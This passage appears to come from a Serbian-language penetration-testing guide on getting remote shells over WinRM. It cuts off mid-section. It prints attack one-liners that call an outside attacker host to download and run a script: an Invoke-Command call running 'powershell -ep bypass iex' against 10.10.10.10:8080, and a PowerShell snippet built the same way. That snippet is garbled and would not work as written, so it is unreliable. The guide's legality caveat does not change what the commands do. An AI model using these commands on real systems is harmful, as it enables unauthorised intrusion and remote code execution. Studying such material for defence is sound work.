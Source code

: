 ```powershell
Invoke-Command -ComputerName <computername> -FilePath C:\path\to\script\file [-credential CSCOU\jarrieta]
```

### Dobijanje obrnutog školjka

Da biste dobili obrnutu školjku na ciljnom sistemu putem WinRM-a, možete koristiti različite metode. Evo nekoliko najčešće korišćenih tehnika:

#### 1. Upotreba Metasploit-a

Metasploit je popularan alat za testiranje penetracije koji može biti koristan za dobijanje obrnutog školjka putem WinRM-a. Možete koristiti modul `exploit/windows/winrm/winrm_script_exec` koji omogućava izvršavanje skripti na ciljnom sistemu putem WinRM-a. Ovaj modul vam omogućava da izvršite skriptu koja će uspostaviti obrnutu školjku sa vašim napadačkim sistemom.

#### 2. Korišćenje PowerShell-a

PowerShell je moćan alat koji je ugrađen u Windows operativne sisteme. Možete koristiti PowerShell skriptu koja će uspostaviti obrnutu školjku putem WinRM-a. Evo primera PowerShell skripte koja koristi `New-Object` cmdlet za uspostavljanje obrnute školjke:

```powershell
$session = New-Object System.Management.Automation.Runspaces.WSManConnectionInfo("http://<napadacki_sistem>:<port>/wsman")
$shell = New-Object System.Management.Automation.Runspaces.RunspaceFactory::CreateRunspace($session)
$shell.Open()
$shell.SessionStateProxy.SetVariable("client", $shell)
$shell.SessionStateProxy.InvokeCommand.InvokeScript("iex (New-Object Net.WebClient).DownloadString('http://<napadacki_sistem>:<port>/shell.ps1')")
```

Zamenite `<napadacki_sistem>` sa IP adresom ili DNS imenom vašeg napadačkog sistema, a `<port>` sa odgovarajućim portom.

#### 3. Korišćenje drugih alata

Pored Metasploit-a i PowerShell-a, postoje i drugi alati koji mogu biti korisni za dobijanje obrnutog školjka putem WinRM-a. Na primer, alat poput `evil-winrm` može vam pomoći da brzo uspostavite obrnutu školjku na ciljnom sistemu. Ovi alati često imaju jednostavno korisničko sučelje i pružaju vam mogućnost da lako uspostavite obrnutu školjku.

Važno je napomenuti da je dobijanje obrnutog školjka na ciljnom sistemu bez odgovarajuće dozvole nezakonito. Ove tehnike treba koristiti samo u okviru zakonskih i etičkih granica, kao deo testiranja penetracije ili za druge legitimne svrhe.

```powershell
Invoke-Command -ComputerName <computername> -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/ipst.ps1')"}
```

### Dobijanje PS sesije

Da biste dobili interaktivnu PowerShell sesiju, koristite `Enter-PSSession`:
